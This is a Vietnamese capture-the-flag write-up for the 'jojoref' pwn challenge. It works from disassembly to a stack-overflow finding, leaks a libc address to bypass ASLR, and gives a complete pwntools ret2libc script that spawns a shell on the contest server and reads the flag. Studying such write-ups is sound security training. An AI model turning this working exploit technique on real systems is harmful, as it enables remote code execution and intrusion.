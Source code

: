 **PZ**
---
Binary Exploitation

Description:
---
> Just a JoJo reference.

Solution:
---
Bài này thì khó hơn bài trước :joy: Chạy thử tiếp nào :point_down:

```bash
root@kali:~# ./jojoref
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: yes
[You said: yes]
Pwn: Oh ho... then come as close as you want
You: ok girl
root@kali:~#
```

2 chỗ nhập khó nhiều 1 chỗ nhập chứ :cry: Disassembly ra thôi. Con này stripped rồi nên một là dùng `objdump` để xem code, hai là dùng tool ngoài.
> Disassembly bằng Radare2, IDA hay Binary Ninja... nhé. Nhiều tool lắm.
```asm
...

add     esp, 10h
mov     eax, ds:(stdout_ptr - 804A000h)[ebx]
mov     eax, [eax]
sub     esp, 8
push    0               ; buf
push    eax             ; stream
call    _setbuf
add     esp, 10h
call    sub_804872B
call    sub_8048676; <---| Chỗ này nhé, còn lại thì bình thường rồi.
mov     eax, 0
lea     esp, [ebp-8]
pop     ecx
pop     ebx
pop     ebp
lea     esp, [ecx-4]
retn
```

Xem hàm `sub_8048676` nào:
```asm
.text:08048676 buf             = byte ptr -1Ch
.text:08048676 var_C           = dword ptr -0Ch
.text:08048676 var_4           = dword ptr -4

...

.text:08048688                 mov     eax, offset unk_804A040; <--- Nhớ địa chỉ này không ??
.text:0804868E                 mov     eax, [eax]
.text:08048690                 mov     [ebp+var_C], eax; <--- Lấy số random lưu vào [ebp+var_C]
.text:08048693                 sub     esp, 0Ch
.text:08048696                 lea     eax, (aPwnOhYouReAppr - 804A000h)[ebx] ; "Pwn: Oh? You're approaching me? Instead"...
.text:0804869C                 push    eax             ; s
.text:0804869D                 call    _puts
.text:080486A2                 add     esp, 10h
.text:080486A5                 sub     esp, 0Ch
.text:080486A8                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:080486AE                 push    eax             ; format
.text:080486AF                 call    _printf
.text:080486B4                 add     esp, 10h
.text:080486B7                 sub     esp, 8
.text:080486BA                 push    30h             ; nbytes <--- Lại cho nhập 0x30 bytes
.text:080486BC                 lea     eax, [ebp+buf]  ;        <--- Trong khi buffer chỉ có 0x1C bytes
.text:080486BF                 push    eax             ; buf
.text:080486C0                 call    sub_8048612     ;  <--- Hàm nhập và thay kí tự '\n' ở cuối chuỗi thành '\0'
.text:080486C5                 add     esp, 10h
.text:080486C8                 mov     eax, offset unk_804A040
.text:080486CE                 mov     eax, [eax]
.text:080486D0                 cmp     [ebp+var_C], eax ; <--- Kiểm tra lại xem số random lưu ở [ebp+var_C] có bị thay đổi không
.text:080486D3                 jz      short loc_80486DA  
.text:080486D5                 call    sub_80485B6  ; <--- Nếu đổi thì gọi hàm này

...
```
Xem nếu số random bị thay đổi thì ra cái gì nhé:
```asm
...
.text:080485C8                 sub     esp, 8
.text:080485CB                 push    0               ; oflag
.text:080485CD                 lea     eax, (aFlag - 804A000h)[ebx] ; "flag"
.text:080485D3                 push    eax             ; file
.text:080485D4                 call    _open  ; <--- Mở ra flag
.text:080485D9                 add     esp, 10h
.text:080485DC                 mov     [ebp+fd], eax
.text:080485DF                 cmp     [ebp+fd], 0
.text:080485E3                 js      short loc_8048608
.text:080485E5                 sub     esp, 4
.text:080485E8                 push    27h             ; nbytes
.text:080485EA                 lea     eax, [ebp+buf]
.text:080485ED                 push    eax             ; buf
.text:080485EE                 push    [ebp+fd]        ; fd
.text:080485F1                 call    _read  ; <--- Đọc ra flag
.text:080485F6                 add     esp, 10h
.text:080485F9                 sub     esp, 0Ch
.text:080485FC                 lea     eax, [ebp+buf]
.text:080485FF                 push    eax             ; s
.text:08048600                 call    _puts  ; <--- In ra flag, ez 15' gg :))
.text:08048605                 add     esp, 10h
...
```
Có vẻ như chỉ cần ghi đè qua `[ebp+var_C]` là ra flag. Ok đập phát chết luôn:
```bash
root@kali:~# python -c 'print "A"*18' | nc 3.91.78.13 10001
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: PTITCTF{ Well yes , but actually no. }   # <--- Bị lừa rồi ... 

root@kali:~# 
```

Thôi lại xem tiếp nếu không gọi `sub_80485B6` thì `loc_80486DA` có cái gì :sweat_smile: :
```asm
...
.text:080486DA                 sub     esp, 8
.text:080486DD                 lea     eax, [ebp+buf]
.text:080486E0                 push    eax
.text:080486E1                 lea     eax, (aYouSaidS - 804A000h)[ebx] ; "[You said: %s]\n"
.text:080486E7                 push    eax             ; format
.text:080486E8                 call    _printf
.text:080486ED                 add     esp, 10h
.text:080486F0                 sub     esp, 0Ch
.text:080486F3                 lea     eax, (aPwnOhHoThenCom - 804A000h)[ebx] ; "Pwn: Oh ho... then come as close as you"...
.text:080486F9                 push    eax             ; s
.text:080486FA                 call    _puts
.text:080486FF                 add     esp, 10h
.text:08048702                 sub     esp, 0Ch
.text:08048705                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:0804870B                 push    eax             ; format
.text:0804870C                 call    _printf
.text:08048711                 add     esp, 10h
.text:08048714                 sub     esp, 8
.text:08048717                 push    30h             ; nbytes
.text:08048719                 lea     eax, [ebp+buf]
.text:0804871C                 push    eax             ; buf
.text:0804871D                 call    sub_8048612 ; <--- Lại hàm nhập, giống như đoạn code trước khi jmp
.text:08048722                 add     esp, 10h
.text:08048725                 nop
.text:08048726                 mov     ebx, [ebp+var_4]
.text:08048729                 leave
.text:0804872A                 retn
```
Lần thứ 2 nhập thì không check số random, có lẽ nên khai thác vào chỗ này.

Bài này thì người ta cho sẵn chuỗi `"/bin/sh"` ở `0x8048890` rồi nên 
gợi ý là sẽ return về `system("/bin/sh")`. Cơ mà lại không cho địa chỉ của `system`, và server bật `ASLR` nên cần phải tính thông qua địa chỉ của hàm nào đó đã cho.

Để ý trong suốt quá trình hàm `sub_8048676` này làm việc không thấy đả động gì đến vị trí `[ebp-8]`, có gì đó mờ ám chăng ?
```shell
Breakpoint 1, 0x0804867a in ?? ()
gdb-peda$ x/x $ebp-8
0xffffd370:	0xf7fadd80
gdb-peda$ info proc map
process 1764
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /root/jojoref
	 0x8049000  0x804a000     0x1000        0x0 /root/jojoref
	 0x804a000  0x804b000     0x1000     0x1000 /root/jojoref
	0xf7dd3000 0xf7dec000    0x19000        0x0 /usr/lib32/libc-2.28.so # <--- địa chỉ cơ sở libc nhé
	0xf7dec000 0xf7f3a000   0x14e000    0x19000 /usr/lib32/libc-2.28.so
	0xf7f3a000 0xf7faa000    0x70000   0x167000 /usr/lib32/libc-2.28.so
	0xf7faa000 0xf7fab000     0x1000   0x1d7000 /usr/lib32/libc-2.28.so
  ...
  
gdb-peda$ p/x 0xf7fadd80-0xf7dd3000
$1 = 0x1dad80
gdb-peda$ quit
root@kali:~# readelf -s /usr/lib32/libc-2.28.so | grep 1dad80
   905: 001dad80   152 OBJECT  GLOBAL DEFAULT   31 _IO_2_1_stdout_@@GLIBC_2.1 # <--- :))
root@kali:~#
```
Rồi thế là xong, chạy nhiều lần thì nó vẫn ra hàm đấy thôi. Còn lưu ý nữa là con này biên dịch bằng `GCC 7.3.0` cho nên việc tính ra system có thể bị sai,
vì kali của mình đang chạy `GCC 8.3.0`, chuyển qua ubuntu cho chắc:
```bash
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep stdout
   783: 001d8ea0    80 OBJECT  GLOBAL DEFAULT   34 _IO_stdout_@@GLIBC_2.0
   895: 001d8d80   152 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stdout_@@GLIBC_2.1 # <--- Đây
  1168: 001d8e1c     4 OBJECT  GLOBAL DEFAULT   34 stdout@@GLIBC_2.0
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   254: 00129640   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d200    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d200    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0 # <--- Và đây
zeltrax@z-pc:~$
```
Bài này phải xử lí run-time để leak ra `DWORD PTR [ebp-8]` nên phải code thôi:
```python
from pwn import *

#p = process("./jojoref")
p = remote('3.91.78.13', 10001)
s1 = "A"*16
print p.recvline()
print p.recv(5)

p.send(s1)

print p.recv(11+16)
urandom = p.recv(4)
ebp_8 = p.recv(4)

print "random: %s" % hex(u32(urandom))
print "$ebp-0x8: %s" % hex(u32(ebp_8))
system = u32(ebp_8)-(0x1d8d80-0x3d200)
print "system: %s" % hex(system)

s2 = "A"*32 + p32(system) + "JUNK" + p32(0x08048890)
print p.recvline()
print p.recv(5)

p.sendline(s2)
p.interactive()
```
Nhớ flag fake không? Phải là flag2 cơ :grin:
```bash
[+] Opening connection to 3.91.78.13 on port 10001: Done
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?

You: 
[You said: AAAAAAAAAAAAAAAA
random: 0xc09dc5bd
$ebp-0x8: 0xf7ecdd80
system: 0xf7d32200
]

Pwn: 
[*] Switching to interactive mode
Oh ho... then come as close as you want
You: $ cat flag2
PTITCTF{w3ll_y3s_0utst4nd1ng_m0v3_but_1t's_ill3g4l}
$ 
```
